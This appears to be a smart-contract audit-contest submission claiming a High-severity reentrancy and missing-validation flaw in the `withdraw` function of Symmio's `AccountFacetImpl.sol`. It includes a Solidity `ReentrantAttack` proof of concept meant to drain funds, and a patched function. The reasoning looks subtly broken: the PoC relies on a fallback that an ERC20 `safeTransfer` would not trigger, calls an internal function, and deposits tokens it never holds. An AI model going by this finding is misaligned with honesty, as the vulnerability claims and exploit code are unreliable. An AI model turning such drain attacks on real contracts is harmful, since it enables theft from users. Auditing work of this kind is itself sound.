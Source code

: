 Petite Spruce Mammoth

High

# Withdrawal logic lacks sufficient validations will lead to manipulate or bypass withdrawal mechanisms in `AccountFacetImpl.sol`

### Summary

Withdrawal logic lacks sufficient validations in `AccountFacetImpl.sol` will lead to manipulate or bypass withdrawal mechanisms.

### Root Cause

The `withdraw` function in `AccountFacetImpl` contract has weak access control and lacks adequate validation for the amount parameter. This allows malicious actors to manipulate or bypass withdrawal mechanisms, potentially causing unauthorized withdrawals or overflows.
https://github.com/sherlock-audit/2024-09-symmio-v0-8-4-update-contest/blob/main/protocol-core/contracts/facets/Account/AccountFacetImpl.sol#L26-L36
Key Issues:
1. Access Control: The `withdraw` function allows the user to withdraw funds without robust ownership checks.
2. Lack of Amount Validation: There is no explicit check that ensures the user has enough balance to cover the withdrawal request.
3. Reentrancy Attack: The function transfers funds before updating the user's balance, making it vulnerable to reentrancy attacks.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

Here’s how an attacker could exploit the vulnerability to withdraw more than they are entitled to (PoC below):
1. The attacker deploys the `ReentrantAttack` contract and funds it with some collateral by calling the `deposit` function.
2. The attacker calls the `withdraw` function and triggers a reentrant call using the fallback function. This occurs because the external call (`safeTransfer`) happens before the balance is updated. The reentrancy allows the attacker to call withdraw again before the first withdrawal updates the balance, thus draining more funds than allowed.
3. The attacker successfully drains funds from the contract.

### Impact

1. A malicious user could exploit the vulnerability to withdraw more funds than they deposited, leading to significant financial losses for the contract and legitimate users.
2. Since the contract interacts with multiple users' balances, exploiting this vulnerability could result in the depletion of the contract's funds, affecting all users.
3. The vulnerability allows reentrant calls to drain more than the attacker’s actual balance, making this a critical issue that could drain all available funds.

### PoC

Exploit scenario: reentrancy attack on withdrawal
```solidity
// Malicious Contract
contract ReentrantAttack {
    AccountFacetImpl public targetContract;
    uint256 public reentrantCalls = 0;

    constructor(address _target) {
        targetContract = AccountFacetImpl(_target);
    }

    // Fallback function for reentrancy exploit
    fallback() external payable {
        if (reentrantCalls < 3) {
            reentrantCalls++;
            targetContract.withdraw(address(this), 10 ether); // Trigger reentrancy multiple times
        }
    }

    function attack() external {
        targetContract.deposit(address(this), 10 ether); // Deposit some amount
        targetContract.withdraw(address(this), 10 ether); // Trigger withdrawal and reentrancy
    }
}
```

### Mitigation

1. Move all external calls (`safeTransfer`) after updating the user’s balance to prevent reentrancy attacks.
2. Implement a reentrancy guard using a modifier to prevent reentrant calls.
3. Add a check to ensure the user has enough balance before allowing them to withdraw.
```solidity
function withdraw(address user, uint256 amount) internal nonReentrant {
    AccountStorage.Layout storage accountLayout = AccountStorage.layout();
    GlobalAppStorage.Layout storage appLayout = GlobalAppStorage.layout();
    
    uint256 amountWith18Decimals = (amount * 1e18) / (10 ** IERC20Metadata(appLayout.collateral).decimals());
    require(accountLayout.balances[msg.sender] >= amountWith18Decimals, "Insufficient balance");

    accountLayout.balances[msg.sender] -= amountWith18Decimals;
    
    // External call after state change to prevent reentrancy
    IERC20(appLayout.collateral).safeTransfer(user, amount);
}
```